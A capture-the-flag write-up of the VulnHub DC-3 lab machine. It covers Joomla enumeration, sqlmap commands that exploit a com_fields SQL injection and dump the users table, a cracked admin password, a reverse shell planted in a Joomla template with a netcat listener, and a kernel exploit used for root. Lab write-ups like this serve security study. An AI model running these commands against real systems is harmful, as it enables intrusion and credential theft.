<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/dc-3,312/">DC3</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/DCAU7/">DCAU</a></h4>

***

## Nmap



Single port open let's see what we can find on the website.

***

## HTTP



This looks like a Joomla website. I found nothing in it's source.

Let's run dirsearch and see if we can find anything:



There are quite a few pages. Let's see if we can find anything in them.

None of them had anything interesting so I decided to run joomscan.



we don't find anything interesting. Let's see if that version of joomla is vulnerable to anything.

I used `searchsploit` to find that and got a hit for a `SQL injection vulnerability`.





I tried to use the given examples in exploit manually but nothing worked so I decided to run the given SQLMAP command.

```bash
sqlmap -u "http://192.168.1.111/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```



We can see that there are 5 databases available. And the unique one is `joomladb`. Let's try to read it using `sqlmap`.

For that we can use the following command:

```bash
sqlmap -u "http://192.168.1.111/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables
```



This returns lot of tables but the interesting one is `#__users` because it stores username and passwords.

We can dump credentials using the following command:

```bash
$ sqlmap -u "http://192.168.1.111/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -T '#__users' -C name,password --dump
```



Username is `admin` but the password is bcrypt encrypted. We can try to crack this using john or hashcat.

I used john to crack the password.



So now we have the credentials i.e `admin:snoopy`

Since we are in we can just edit some template to get us a reverse shell.

* I uploaded my reverse shell code on the `index.php` of beez3 template i.e `httsp://IP/administrator/index.php?option=com_templates&view=template&id=503&file=L2luZGV4LnBocA`

* Setup my listner i.e `nc -nlvp 4444` and
* Visited `http://IP/templates/beez3/index.php` and got a reverse shell


***

I am in the system so I used my beloved enumeration script to see if I can find something juicy :)

I found that `dc3` had a sudoer history:



And that the kernel is not updated.



I checked the `lsb_release`:



Now using this we can search for an exploit.



We can use this to get the privilege escalation.

***

## Privilege escalation

I used the github URL to download the exploit:



There was a `compile.sh` using that I compiled everything. Using python's HTTP server transfered everything to the machine.



I ran the file and got the root shell.





***

Nice little machine. Thanks to [@DCUA7](https://twitter.com/DCAU7/) for the machine.
